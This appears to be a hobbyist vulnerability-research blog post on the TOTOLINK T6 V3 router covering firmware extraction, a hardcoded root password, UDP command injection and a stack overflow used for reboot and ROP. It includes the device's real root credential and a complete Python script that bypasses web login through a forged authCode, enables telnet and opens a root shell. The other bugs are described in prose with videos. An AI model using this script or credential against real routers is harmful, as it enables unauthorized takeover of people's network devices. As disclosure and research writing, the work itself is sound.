










---

title: 'A journey with TOTOLINK T6 V3'
published: 2025-06-25
updated: 2025-07-08
description: 'This is my journey with this "mesh" !!'
image: 'pics/device.png'
tags: ['Blogs', 'IoT', 'Router']
category: 'Blogs'
draft: false
---

> Updated: I removed POC !!

I do Vuln research in my free time. Today, my target is TOTOLINK T6 V3.0, The firmware version is `V4.1.5cu.748_B20211015`. After open the plastic shell, I see 4 pin with `GND`, `TX`, `RX`, `VCC`. It should be UART, with the correct baud rate (`38400`). After line and line of log, they ask me for credential to login.


## Dumping the Firmware
You can download the newest firmware by this [link](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html). The device use `XM25QH64C` SOP-8, I desolder it and use `XGecu T48` to dump the firmware, then use `binwalk` on it.<br>


## Finding login credentials
We have `SquashFS` at `0x247486`, let's extract it first. First we wanna read `etc/shadow` for login credentials. There are `shadow` and `shadow.sample` file. The `shadow` file is link to `/var/show`, we dont have this file. Lets read init script in `init.d` folder.


In the `rcS` file, we can see the device will copy the `/etc/shadow.sample` to `/var/shadow`. Therefore, the `shadow.sample` will contain login credentials.

```
cp /etc/shadow.sample /var/shadow
cp /etc/passwd.sample /var/passwd
#cp /etc/vsftpd.conf /var/config/vsftpd.conf
```

Lets look inside that file.

```
root:$1$BJXeRIOB$w1dFteNXpGDcSSWBMGsl2/:16090:0:99999:7:::
nobody:*:14495:0:99999:7:::
```

We can crack the hash and the login will be `root - cs2012`, but cant login because its wrong.


## Finding the "real" credentials
Trace the output of UART, we can see they gonna change password during boot time, we need to find where it happen.<br>
Back to the `rcS` script, we can see they call `cs password` after copy `shadow.sample` file. 

```
cp /etc/shadow.sample /var/shadow
cp /etc/passwd.sample /var/passwd
#cp /etc/vsftpd.conf /var/config/vsftpd.conf

cs password
```

Thats why we see the output like `New password:` and `Retype password:`.



So we need to reverse the `cs` binary. We can see they echo `KL@UHeZ0` to `/var/tmppwd`, use it to change the password for root and delete it.


So the correct credential is `root - KL@UHeZ0`.


## But...

The problem is I can get a shell only through UART. What if I don't have access to the physical device ? In the web root folder, I see a quite interesting file named `telnet.html`.



This page is use for enable telnet service. If telnet is enabled, we can get a remote shell from the device, sounds great !!<br>
But the problem is we need admin account to enable telnet. We can see the function use for authen in `cstecgi.cgi` binary. First it get the `username` and `password` from request, then compare it with value save on the device.



If all good, the binary create a string to help browser redirect, noted that the `authCode` will be `1` if we use correct username/password.



Seem clear, then we continue to look at `lighttpd` - a lightweight web server usually used on embedded systems. Let's see how it process the login phase. Here is the pic about the function named `Form_Login`.



TBH, I dont know WTF is going on there, but I can guess it will try to parse the redirect request. It get out the `authCode`, `username`, `password`, `goURL` and `flag`. It only check the `authCode` with `1` or `0`. If `0` -> show the login page, if `1` -> go to the page `goURL`.



We can manipulate the `authCode` to bypass the login page, then with the same session (they use `timestamps` for this), we can turn on telnet. Lets do it:

```python
from pwn import *
import requests, time, sys, os

if len(sys.argv) != 2:
    print("[+] Need device IP !!")
    exit(0)

http_sv = "http://%s/" % sys.argv[1]
url = "formLoginAuth.htm?authCode=1&userName=admin"
cookie = {"SESSION_ID" : "2:%d:2" % round(time.time())}

bypass_admin_url = http_sv + url
requests.get(bypass_admin_url, cookies=cookie)

cgi_url = "cgi-bin/cstecgi.cgi"
payload = """
    {"telnet_enabled":"1","topicurl":"setTelnetCfg"}
"""

enable_telnet_url = http_sv + cgi_url
res = requests.post(enable_telnet_url, data=payload, cookies=cookie)

if res.status_code == 200:
    print("[+] Telnet enabled !!\n[+] Get shell...")

    sleep(1)

    with remote(sys.argv[1], 23) as r:
        r.recvuntil(b"login:")
        r.sendline(b"root")

        r.recvuntil(b"Password:")
        r.sendline(b"KL@UHeZ0")
        r.sendline(b"ls")

        # just for test, r.interactive not working on my :(
        result = r.recvall(timeout=3).splitlines() 
        for i in result:
            print(i.decode())

        r.interactive()

```



## Finding bug

### UDPserver
With root shell, I able to use command like `ps` to watch the process tree. But for more "powerful" command, I push a new `busybox` that has more command than the older.<br>
I use `netstat` to view all listen port and what binary listen on those port. The `UDPserver` listen on port `9034`. Lets look at it.

```
udp        0      0 0.0.0.0:53              0.0.0.0:*                           1656/dnsmasq
udp        0      0 0.0.0.0:67              0.0.0.0:*                           1404/udhcpd
udp        0      0 0.0.0.0:9034            0.0.0.0:*                           972/UDPserver
```

In the `main` function, I can see it try to `recvfrom` socket, compare with some string like `orf`, `irf`,... Then use `strcat` to complete the command and pass it to `command`. We can inject our command easily. Here is the POC:

<video width="640" height="360" controls>
  <source src="/blogs_file_attached\totolink_t6/poc_UDPserver.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

### BOF -> DDOS or ...
We back to `cstecgi.cgi`, in the function at address `0x41f404` (this is the handler for `setLanguageCfg`). First the program parse 2 argv from `POST` request, then it check file `/var/userdata/product.ini` is exist, then the program will create a string from hardcoded string `helpUrl_` and our argv. 



But the command_variable on stack only `256` bytes, so we can overflow and overwrite the `ret_addr`. But we cant send `00` bytes, so the only thing we can control is last 3 bytes of `ret_addr`. I tried to find some helpful gadgets to execute system, but I cant find anything (or yet !!). So I decided to return to `0x412acc - RebootSystem`, to make the system reboot. Result:

<video width="640" height="360" controls>
  <source src="/blogs_file_attached\totolink_t6/ddos.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

But I want to do more than a DOS !! To archive that, we need to find a helpful gadget that does 2 things:
- We want to control register like `a0`, `a1`,... to prepare the param for next call.
- We want to call `system` function to execute command in our controlled register.

If we can execute the command `telnetd`, we can turn on the `telnet` service and from that we can have a remote shell. But the problem start when `sprintf` will end when it sees `00` byte, so we cant include the `00` byte in our payload => we cant use any address on the userland like `0x0040xxxx` because it needs `00` byte to create a valid address.<br>
So I looked at those library and found out there is a string `telnetd` in `/lib/libmystdlib.so`. After that, I found the very powerful gadget in `cstecgi.cgi`. This gadget help me to:
- Control the `a0` (`a0 = s1`).
- Call the `system` function.

You might ask, how we control it when we dont even touch the `s1` reg ? The answer is: cleanup part of the function will do that. You can see those reg `s0`, `s1,`, `s2` will be loaded with the value on the stack.



But now, the hardest part join in. We dont know anything about the address of those library, how the heck we can know the address of `telnetd` string ? You can see the `library_base` start at `0x77xxx000`, we can brute that `xxx` (12 bits). Then we calculate the offset from `libdl-0.9.33.so` to `libmystdlib.so`, its 0x11c000.



The POC took arround 30 mins to successful exploit and we able to get shell through telnet. The result after we found the telnet port (23):

<video width="640" height="360" controls>
  <source src="/blogs_file_attached\totolink_t6/poc_bof_brute.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>